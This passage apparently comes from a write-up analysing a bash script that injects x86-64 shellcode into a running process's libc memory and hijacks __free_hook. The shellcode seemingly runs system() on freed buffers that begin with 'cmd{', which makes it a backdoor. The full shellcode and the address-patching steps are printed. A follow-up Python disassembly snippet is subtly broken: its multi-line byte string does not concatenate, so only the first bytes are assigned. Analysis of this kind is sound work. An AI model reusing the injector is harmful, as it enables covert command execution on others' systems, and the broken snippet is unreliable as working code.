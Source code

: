 ```bash linenums="48"
shellcode='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
shellcode=$(patch_shellcode $shellcode '\x41\x41\x41\x41\x41\x41\x41\x41' $(pack_addr $malloc_usable_addr))
shellcode=$(patch_shellcode $shellcode '\x42\x42\x42\x42\x42\x42\x42\x42' $(pack_addr $free_addr))
shellcode=$(patch_shellcode $shellcode '\x43\x43\x43\x43\x43\x43\x43\x43' $(pack_addr $system_addr))
shellcode=$(patch_shellcode $shellcode '\x44\x44\x44\x44\x44\x44\x44\x44' $(pack_addr $free_hook_addr))
shellcode_length=$(echo -ne $shellcode | wc -c)
shellcode_addr=$(($libc_exec_addr - $shellcode_length))
shellcode=$(patch_shellcode $shellcode '\x55\x55\x55\x55\x55\x55\x55\x55' $(pack_addr $shellcode_addr))
```

Finally, the script writes the shellcode to the end of the `libc exec` section of memory in
the process, and overwrites the address of `__free_hook()` with the address of the shellcode.

To discover what the shellcode does, we can use the
[`pwntools`](https://github.com/Gallopsled/pwntools) library to disassemble the
shellcode, then use [`ghidra`](https://ghidra-sre.org/) to decompile the shellcode to
`C` (as I'm not great at assembly code).

```python linenums="1"
#!/usr/bin/env

from pwn import *

# Set the context: 64-bit architecture on Linux
context.update(arch='amd64', os='linux')

# The shellcode
shellcode=b'\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd'
'\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c'
'\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44'
'\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80'
'\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48'
'\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55'
'\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01'
'\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d'
'\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4'
'\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99'
'\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48'
'\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44'
'\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'

# Same the assembly to 'injector.as'
with open('injector.as', 'w') as as_file:
    as_file.write(disasm(shellcode))

# And save the binary to 'injector.bin'
with open('injector.bin', 'wb') as binfile:
    binfile.write(shellcode)
```
